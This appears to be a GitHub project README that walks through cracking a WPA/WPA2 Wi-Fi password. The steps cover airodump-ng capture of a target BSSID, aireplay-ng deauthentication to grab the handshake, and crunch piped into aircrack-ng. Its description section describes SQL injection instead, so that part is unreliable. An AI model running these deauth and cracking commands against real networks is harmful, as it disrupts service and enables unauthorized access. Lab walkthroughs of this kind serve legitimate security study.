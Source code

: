 <h1>Wpa/Wpa2 Wifi Hacking </h1>

<h2>Description</h2>
In-Band SQL Injection is the easiest type to detect and exploit; In-Band just refers to the same method of communication being used to exploit the vulnerability and also receive the results, for example, discovering an SQL Injection vulnerability on a website page and then being able to extract data from the database to the same page.
<br />


<h2>Tools Required </h2>

- <b>Network Adapter (e.g., TL-WN722N V2) with monitoring mode support.</b> 
- <b>Aircrack-ng</b>
- <b>Airodump-ng</b>
- <b>Airmon-ng</b>
-<b>Crunch</b>
<h2>Environments Used </h2>

- <b>Kali Linux</b> (21H2)

<h2>Program walk-through:</h2>
<p>Monitoring Mode Setup
Step 1: Kill Interrupting Services
Before enabling monitoring mode, identify and kill services that might interrupt the process</p>

![image](https://github.com/MohebAwichewi/Projects/assets/149394585/dd5fc52d-7e17-412f-b610-e02d669956bc)

<p>Step 2: Enable Monitoring Mode
Stop the WLAN interface and enable monitor mode:</p>

![image](https://github.com/MohebAwichewi/Projects/assets/149394585/7ff8fc4e-1bd6-484f-baba-3be7437ca605)

<p>Verify the mode using: iwconfig</p>

![image](https://github.com/MohebAwichewi/Projects/assets/149394585/0e78f00c-9da3-4f45-ac0f-56f92ed9fa40)

<p>Packet Capture and 4-way Handshake
Step 3: Capture BSSID and Monitor Network
Use airodump-ng to capture BSSID information:airodump-ng wlan0 </p>

![image](https://github.com/MohebAwichewi/Projects/assets/149394585/2c8bdbe7-b257-4127-addb-aeabb3c25a81)
<p>Select a specific BSSID for monitoring and run:airodump-ng -c 1 -w Scan_network --bssid EW:WV:4H:J7:A5:28 wlan0 </p>

![image](https://github.com/MohebAwichewi/Projects/assets/149394585/ae365eef-823b-4f01-ad7b-71ac6513efe7)
<p>Step 4: Deauthentication Process
Deauthenticate the target Wi-Fi to capture the 4-way handshake:
sudo aireplay-ng -0 0 -a EW:WV:4H:J7:A5:28 wlan0</p>

![image](https://github.com/MohebAwichewi/Projects/assets/149394585/3e0ada97-b5ca-4cd2-bae2-ea4d86d6cdb9)
<p>Run the command until you see the 4-way handshake in the background code.</p>

<p>Final Stage: Password Cracking with Crunch and Aircrack-ng
After capturing the 4-way handshake, the final step involves cracking the Wi-Fi password using Crunch and aircrack-ng. It's important to note that the success of this process heavily depends on various factors, including the complexity and length of the password.
Using Crunch for Password Generation
In this example, I used Crunch to generate possible passwords. Since I knew the Wi-Fi password consisted of only numeric characters, the command was tailored accordingly:
sudo crunch 8 8 123456780 | aircrack-ng -w - Scan_Kamalesh-01.cap -e KamaleshD</p>

![image](https://github.com/MohebAwichewi/Projects/assets/149394585/196a444e-22da-4718-801a-7b98a2db694b)
